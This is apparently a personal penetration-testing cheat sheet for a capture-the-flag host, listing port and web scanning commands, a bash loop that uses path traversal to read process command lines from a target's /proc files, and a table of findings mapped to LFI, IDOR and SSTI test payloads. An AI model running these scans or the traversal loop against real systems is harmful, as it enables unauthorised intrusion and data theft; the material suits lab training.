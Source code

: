 ```
nmap -sT -p- airplane.thm -T4
nmap -T4 -n -sC -sV -Pn -p-

```


### Web
```
gobuster dir -u https://my.target.site -w /usr/share/wordlists/dirb/big.txt
nikto -h https://my.target.site -p [port]
nuclei -target https://my.target.site -rl 4 # default script with rate limit
nuclei -u https://my.target.site -t myscript.yaml -t myscript_2.yaml <...> -t cves/ -t Exposure/
ffuf -u https://my.target.site/FUZZ -w /path/to/your/wordlist.txt -mc 200
```



```
$ for i in {1..1000}; do echo -n "\r$i"; out=$(curl -s "https://my.target.site?page=../../../../../proc/$i/cmdline" | sed 's/\x00/ /g' | grep -v 'Page not found'); if [ -n "$out" ]; then echo "\r$i : $out"; fi; done
```

### Next steps
https://book.hacktricks.xyz/


|Findings     |Possible vector         |
|-------------|------------------------|
|/?file=      |LFI PathTraversal|
|/profile?id=2|IDOR|
|Content-Type: application/x-www-form-urlencoded n\message={{7*7}}|SSTI|

